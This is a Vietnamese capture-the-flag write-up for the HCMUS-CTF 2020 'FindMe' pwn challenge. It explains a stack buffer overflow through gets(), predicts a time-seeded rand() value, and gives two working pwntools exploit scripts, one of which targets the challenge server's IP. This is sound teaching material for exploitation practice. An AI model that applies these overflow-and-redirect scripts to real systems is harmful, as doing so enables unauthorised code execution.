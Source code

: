 ## ⚡ [FindMe](https://ctf.hcmus.edu.vn/challenges#FindMe)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/108-pts-brightgreen.svg)](https://img.shields.io/badge/108-pts-brightgreen.svg)

Tác giả: `pakkunandy`


Tags: `pwn` `bof` `rand` `ret2text`

<!--
### Challenge Description
-->

### Summary

Đây là challenge về buffer overflow.

Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec findme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Chương trình này chạy trên nhân x64, đã tắt hầu hết các bảo vệ.

Mở chương trình với **Ghidra**, ta kiểm tra hàm **main**:

```cpp
undefined8 main(void)

{
  char local_88 [128];
  
  clean();
  puts("Wellcome to HCMUS-CTF 2020! Please tell me your token:");
  gets(local_88);
  puts("So, that\'s your token! You\'re just a normal user :), Bye!!!");
  return 0;
}
```
Hàm này chỉ yêu cầu nhập token thông qua hàm `gets` mà không làm gì cả.  
Như vậy ta sẽ lợi dụng hàm `gets` khi chương trình cố gắng đọc vào vùng nhớ `local_88` trên stack nhưng lại không giới hạn số lượng kí tự nhập để ghi đè địa chỉ trả về của hàm main.


```cpp 
void dont_touch_me(void)

{
  time_t tVar1;
  int local_10;
  int local_c;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_c = rand();
  printf("Please tell me your input!!!!");
  __isoc99_scanf(&DAT_00400996,&local_10);
  if (local_c == local_10) {
    system("/bin/cat flag.txt");
  }
  return;
}
```
Ta tìm thêm được thêm hàm **dont_touch_me**, dùng để in ra flag của challenge.  
Tuy nhiên, hàm này có một cái khó là yêu cầu người dùng nhập vào một input `local_10`, nếu bằng `local_c` được random ra thì mới trả về flag.
 
### Exploit #1 

- Tìm vị trí địa chỉ trả về của hàm main
    ```bash
    $ python -c 'print "A"*136 + "BBBBBB"' | strace ./findme
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x424242424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```
    Như vậy, sau **136** bytes offset thì địa chỉ trả về của hàm main (si_addr) bị ghi đè thành "BBBBBB" (là giá trị địa chỉ lệnh không hợp lệ dẫn đến break chương trình).  
    Đối với `x64`, vị trí lưu địa chỉ trả về của hàm có kích thước **6** bytes.


- Lấy địa chỉ của hàm **dont_touch_me**

    ```bash
    $ objdump -t findme | grep dont_touch_me
    000000000040084a g     F .text  0000000000000062              dont_touch_me
    ```

    Kết quả: **`0x00000040084a`**

- Bypass checker

    Ta thấy `local_c` được random với seed luôn là `srand(time(NULL))`, với `time(NULL)` chính là ngày giờ hiện tại theo chuẩn `Unix`. Như vậy, ta cũng có thể viết 1 chương trình giúp rand 1 con số cho `local_10` với cùng seed của server, thì sẽ cho ra cùng một giá trị.

    ```cpp
    // get_rand.c
    int main() {
        int v3;
        srand(time(0));
  
        v3 = rand();

        //printf("%d\n", v3);
        fwrite(&v3, 4, 1, stdout);

        return 0;
    }
    ```  

    Đoạn mã này sẽ trả ra 4 byte biểu diễn giá trị của `local_c` tại thời điểm chạy chương trình.


- Local exploit
    
    Xây dựng payload:

    ```python
        payload = "A" * offset + dont_touch_me_addr + newline + local_c
    ```

    Chạy trên server và lấy flag.

## Exploit #2 

Cách này tương tự như `Exploit #2` của [ChampionLeague](../ChampionLeague/README.md) hay [HackMe](../HackMe/README.md) challenge.  
Thay vì nhảy tới hàm **dont_touch_me**, ta nhảy tới luôn lời gọi hàm system phía trong cho gọn và vẫn lấy được flag. 


## Code #1

```python
#!/usr/bin/env python

from pwn import *

e = ELF("./findme")
dont_touch_me_addr = e.sym["dont_touch_me"]

offset = 136

p = remote("159.65.13.76", 63003)
#p = process("./findme")

payload = 'A' * offset + p64(dont_touch_me_addr)[:-2]

# send buffer overflow
p.recvuntil("token:")
p.sendline(payload)

# get random with srand(time(NULL))'s seed
rand_int = process("./get_rand")
rand_bytes = rand_int.recv(4)

#local_c's size is 4 bytes long
local_c = int.from_bytes(rand_bytes, byteorder='little', signed=True)

# send n
p.sendline(p32(local_c))
p.interactive()

```

## Code #2

```python
#!/usr/bin/env python

from pwn import *

e = ELF("./findme")
offset = 136

#p = remote("159.65.13.76", 63003)
p = process("./findme")

system_addr = 0x40089c

payload = 'A' * offset + p64(system_addr)
p.recvuntil("token:")

p.sendline(payload)
p.interactive()
```

📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
